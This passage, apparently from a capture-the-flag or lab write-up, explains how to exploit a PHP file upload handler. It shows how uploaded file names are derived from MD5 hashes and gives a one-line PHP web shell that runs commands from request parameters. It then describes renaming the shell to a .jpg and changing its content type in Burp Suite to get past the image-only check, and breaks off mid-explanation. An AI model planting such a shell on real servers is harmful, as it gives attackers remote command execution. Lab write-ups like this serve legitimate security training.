 ```
        if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFile)) {
            echo "File uploaded successfully.";
        } else {
            echo "Error uploading file.";
        }
    } else {
        echo "Invalid file format. Only PNG and JPEG images are allowed.";
    }
}
?>
```

to get name file you need go to [MD5 Decrypt](https://md5decrypt.net/en/#answer) 

Example:

![](2024-02-09-12-17-06.png)

If your file name is test.jpg copy the file name with that extension and encrypt it you would get  `0412c29576c708cf0155e8de242169b1` so you just append.jpg at the end of name file like this `0412c29576c708cf0155e8de242169b1.jpg` so now let's we upload our shell


```
<?php system($_REQUEST["cmd"]); ?>
```

First of all you should rename your shell to `shell.jpg` and upload with capturing burpsuite and change the Content type and rename name file let me show you
